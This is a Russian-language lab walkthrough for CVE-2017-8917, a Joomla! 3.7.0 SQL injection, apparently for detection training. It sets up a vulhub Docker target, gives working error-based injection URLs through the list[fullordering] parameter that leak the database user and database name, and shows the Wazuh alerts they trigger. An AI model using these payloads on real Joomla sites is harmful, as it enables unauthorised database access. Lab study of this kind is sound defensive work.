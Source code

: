 # CVE-2017-8917

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2017-8917](https://nvd.nist.gov/vuln/detail/CVE-2017-8917)
* [https://developer.joomla.org/security-centre/692-20170501-core-sql-injection.html](https://developer.joomla.org/security-centre/692-20170501-core-sql-injection.html)
* [https://www.programmersought.com/article/11485914091/](https://www.programmersought.com/article/11485914091/)

Joomla! — система управления содержимым (CMS), написанная на языках PHP и JavaScript, использующая в качестве хранилища базы данных СУБД MySQL или другие стандартные промышленные реляционные СУБД.

Уязвимость SQL-инъекций в Joomla! 3.7.x до версии 3.7.1 позволяет злоумышленникам выполнять произвольные SQL-команды через неопределенные векторы.

### Эксплуатация уязвимости

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/joomla/CVE-2017-8917

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:8080 будет доступна домашняя страница Joomla!

<figure><img src="../../.gitbook/assets/cve-2017-8917(1).png" alt=""><figcaption></figcaption></figure>

Для реализации уязвимости перейдите по данной ссылке, перед этим заменив "ваш-ip" на ip машины с уязвимой средой:

```
http://your-ip:8080/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x23,concat(1,user()),1)
```

<figure><img src="../../.gitbook/assets/cve-2017-8917(2).png" alt=""><figcaption></figcaption></figure>

Также вы можете узнать название базы данных, заменив "user" на "database" в ссылке

```
http://your-ip:8080/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x23,concat(1,database()),1)
```

<figure><img src="../../.gitbook/assets/cve-2017-8917(3).png" alt=""><figcaption></figcaption></figure>

В Wazuh ([https://ваш-ip/app/wazuh](https://xn---ip-5cdj7k/app/wazuh)) мы можем увидеть соответствующие алерты об эксплуатации SQL-инъекции Joomla!

<figure><img src="../../.gitbook/assets/cve-2017-8917(4).png" alt=""><figcaption></figcaption></figure>
